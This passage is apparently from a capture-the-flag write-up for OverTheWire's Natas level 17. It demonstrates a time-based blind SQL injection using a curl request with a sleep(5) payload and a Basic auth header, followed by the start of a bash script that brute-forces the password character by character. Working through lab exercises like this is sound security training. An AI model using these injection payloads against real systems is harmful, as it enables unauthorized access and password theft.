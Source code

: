 We can see the SQL command looks like what we expected and the command executed
in less than 1 second, implying that the first letter of the password is not
`a`.

After a few tries, we come across a different result with `x` as the first
letter of the password..

```
$ time curl --silent "http://natas17.natas.labs.overthewire.org/?username=natas18%22%20AND%20password%20LIKE%20BINARY%20%22x%25%22%20AND%20sleep%285%29%20%23%20&debug" -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' >/dev/null

real    0m5.345s
user    0m0.004s
sys    0m0.006s
```

Using `x` as the first letter results in the command completing in >5 seconds
which implies the SQL SELECT query was successful and forced the execution of
our `sleep(5)`.

#### BRUTE FORCE

Let's script up a brute force attack..

```
$ cat script.sh
#! /bin/bash

rawurlencode() {
  local string="${1}"
  local strlen=${#string}
  local encoded=""
  local pos c o

  for (( pos=0 ; pos<strlen ; pos++ )); do
     c=${string:$pos:1}
     case "$c" in
        [-_.~a-zA-Z0-9] ) o="${c}" ;;
        * )               printf -v o '%%%02x' "'$c"
     esac
     encoded+="${o}"
  done
  echo "${encoded}"    # You can either set a return variable (FASTER)
  REPLY="${encoded}"   #+or echo the result (EASIER)... or both... :p
}

export PASSWORD

# we assume the password length is 32
for i in {0..31}
do

  # loop through all valid possible characters
  for CH in {{0..9},{a..z},{A..Z}}
  do
    PASSWORD[$i]=$CH

    #
    # our SQL injection is USERNAME='natas18" AND password LIKE BINARY "TESTSTRING%" AND sleep(5) # '
    #
    # SELECT * from users where username="natas18" AND password LIKE BINARY "TESTSTRING%"  AND sleep(5) # "
    #
    INJECTION_BEG="$( rawurlencode 'natas18" AND password LIKE BINARY "' )"
```